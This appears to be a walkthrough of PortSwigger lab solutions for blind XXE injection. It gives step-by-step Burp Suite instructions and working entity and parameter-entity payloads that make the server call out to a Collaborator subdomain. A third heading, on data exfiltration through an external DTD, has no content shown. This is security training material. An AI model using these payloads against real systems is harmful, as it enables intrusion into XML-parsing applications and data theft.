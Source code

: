 ## Blind XXE with out-of-band interaction
### Reference: [PortSwigger: Blind XXE with out-of-band interaction](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)


### Solution
1. Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element, but insert your Burp Collaborator subdomain where indicated:
```
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> ]>
```
5. Replace the ``productId`` number with a reference to the external entity:
```
&xxe;
```
6. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

## Blind XXE with out-of-band interaction via XML parameter entities
### Reference: [PortSwigger: Blind XXE with out-of-band interaction via XML parameter entities](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)


### Solution
1. Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element, but insert your Burp Collaborator subdomain where indicated:
```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> %xxe; ]>
```
5. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

## Exploiting blind XXE to exfiltrate data using a malicious external DTD
### Reference: [PortSwigger: Exploiting blind XXE to exfiltrate data using a malicious external DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)
